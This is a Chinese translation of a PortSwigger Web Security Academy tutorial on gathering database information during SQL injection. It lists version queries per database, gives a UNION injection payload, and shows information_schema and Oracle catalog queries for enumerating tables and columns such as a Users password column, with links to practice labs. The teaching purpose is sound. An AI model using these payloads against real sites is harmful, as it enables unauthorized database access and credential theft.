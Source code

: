 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/sql-injection/examining-the-database'
---
```


# 在SQL注入攻击中检索数据库

当利用 [SQL 注入](https://portswigger.net/web-security/sql-injection)漏洞时，收集数据库本身的信息通常是必要的。这包括数据库软件的类型和版本，还包括数据库中包含的表和列等内容。

### 查询数据库类型和版本

不同的数据库提供不同的版本查询方式。你通常需要尝试不同的查询方式，以找到一个有效的查询方式，能够确定数据库软件的类型和版本。

用于确定某些常用数据库类型的数据库版本的查询如下：

| 数据库类型       | 查询                      |
| :--------------- | :------------------------ |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

例如，你可以使用带有下边的 `UNION` 攻击：

```sql
' UNION SELECT @@version--
```

这可能会返回类似下面的输出，确认数据库是 Microsoft SQL Server，以及正在使用的版本。

```text
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在 Oracle 中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)
{% endhint %}

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在 MySQL 和微软中查询数据库类型和版本](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft)
{% endhint %}

### 列出数据库的内容

大多数数据库类型（Oracle 是个明显的例外）都有一组被称作 information schema 的视图，这些视图提供有关数据库的信息。

你可以通过查询 `information_schema.tables` 来列出数据库的表：

```sql
SELECT * FROM information_schema.tables
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME    TABLE_TYPE
=====================================================
MyDatabase    dbo          Products BASE TABLE
MyDatabase    dbo          Users BASE    TABLE
MyDatabase    dbo          Feedback BASE TABLE
```

这些输出表明库中有三个表，分别是 `Products`, `Users`, `Feedback`。

你可以通过查询 `information_schema.columns` 列出特定表中的列：

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

返回输出如下：

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE
=================================================================
MyDatabase    dbo          Users      UserId      int
MyDatabase    dbo          Users      Username    varchar
MyDatabase    dbo          Users      Password    varchar
```

此输出显示了指定表中的列以及每列的数据类型。

{% hint style="warning" %}
**实验：**[SQL 注入攻击，在非 Oracle 数据库中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)
{% endhint %}

### 等效于Oracle中的information schema

在 Oracle 中，你可以通过稍有差异的查询获取同样的信息。

你可以通过查询 `all_tables` 列出表：

```sql
SELECT * FROM all_tables
```

还可以通过查询 `all_tab_columns` 列出列：

```sql
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

{% hint style="warning" %}
实验：[SQL 注入攻击，在 Oracle 中列出数据库内容](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle)
{% endhint %}

